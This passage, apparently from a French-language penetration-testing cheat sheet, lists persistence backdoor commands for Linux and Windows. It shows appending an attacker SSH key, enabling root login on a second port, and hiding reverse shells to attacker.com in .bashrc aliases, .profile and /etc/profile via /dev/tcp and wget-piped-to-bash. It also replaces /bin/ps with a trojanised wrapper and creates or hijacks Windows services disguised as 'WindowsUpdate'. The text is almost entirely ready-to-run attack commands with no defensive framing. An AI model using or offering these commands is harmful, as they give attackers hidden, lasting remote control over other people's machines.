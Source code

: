 ### SSH Backdoors
```bash
# Clé SSH autorisée
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAB... user@attacker" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# Backdoor dans sshd_config (nécessite root)
echo "Port 2222" >> /etc/ssh/sshd_config
echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
systemctl restart sshd
```

### Alias et RC Files
```bash
# Backdoor dans .bashrc
echo 'alias ls="ls $@ && (/bin/bash -c \"bash -i >& /dev/tcp/attacker.com/4444 0>&1\" &)"' >> ~/.bashrc

# Backdoor dans .profile
echo '[ -z "$PS1" ] || (/bin/bash -c "bash -i >& /dev/tcp/attacker.com/4444 0>&1" &)' >> ~/.profile

# Backdoor globale
echo '(/usr/bin/wget -qO- http://attacker.com/payload.sh | bash &)' >> /etc/profile
```

### Binaires Légitimes Modifiés
```bash
# Remplacer un binaire système (sauvegarde de l'original)
cp /bin/ps /bin/ps.orig
cat > /bin/ps << 'EOF'
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1' &
/bin/ps.orig "$@"
EOF
chmod +x /bin/ps
```

## 🪟 Backdoors Windows

### Services Windows
```batch
# Créer un service personnalisé
sc create "WindowsUpdate" binPath= "C:\Windows\System32\payload.exe" start= auto
sc description "WindowsUpdate" "Windows Update Background Service"
sc start "WindowsUpdate"

# Modifier un service existant
sc config "Spooler" binPath= "C:\Windows\System32\payload.exe"
```
